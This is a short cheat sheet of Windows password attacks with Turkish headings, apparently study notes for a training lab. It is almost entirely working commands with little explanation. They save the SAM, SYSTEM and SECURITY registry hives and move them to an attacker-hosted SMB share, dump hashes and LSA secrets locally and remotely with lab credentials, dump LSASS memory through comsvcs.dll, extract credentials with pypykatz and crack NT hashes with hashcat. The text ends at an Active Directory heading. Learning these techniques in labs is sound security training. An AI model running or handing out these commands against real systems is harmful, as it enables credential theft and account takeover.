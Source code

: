 ```yaml
---
{"dg-publish":true,"permalink":"/cheat-sheet/password-attacks-cheat-sheet/","created":"2024-11-02T16:44:54.371+03:00","updated":"2025-01-05T14:16:26.830+03:00"}
---
```




#### 1-**Registry Hives Kopyalamak için reg.exe save dosyasını kullanma**  

```cmd-session
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save


C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save


C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

```

##### 1- Attack Host SMB server oluşturma
```shell-session
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/
```

##### 2- Attack Host Paylaşımına Hives'leri taşıma
```cmd-session
move sam.save \\10.10.15.16\CompData
```

```cmd-session
move security.save \\10.10.15.16\CompData
```

```cmd-session
move system.save \\10.10.15.16\CompData
```



##### 3-**Impacket'in secretsdump.py ile Hash'leri Dump Etme**

```shell-session
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```


##### 4- **Hashcat'i NT Hash'lerine karşı çalıştırma**

```shell-session
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```



#### 2-**Dumping LSA Secrets Remotely**
```shell-session
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```


#### 3-Dumping SAM Remotely
```shell-session
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```



#### 4- **LSASS Process Belleğini Dump Etme**  

##### 1-Task Manager Method
![Pasted image 20241103020941.png](/img/user/resimler/Pasted%20image%2020241103020941.png)

###### Dump yeri 
```cmd-session
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```


##### 2-Rundll32.exe & Comsvcs.dll Method

###### Finding LSASS PID in cmd

```cmd-session
C:\Windows\system32> tasklist /svc
```

###### Finding LSASS PID in PowerShell
```powershell-session
Get-Process lsass
```


###### PowerShell kullanarak lsass.dmp oluşturma
```powershell-session
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```



#### 5-**Kimlik Bilgilerini Çıkarmak için Pypykatz Kullanma**

```shell-session
pypykatz lsa minidump /home/peter/Documents/lsass.dmp 
```


#### 6- **Hashcat ile NT Hash'ini Kırma**

```shell-session
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```



## Attacking Active Directory & NTDS.dit
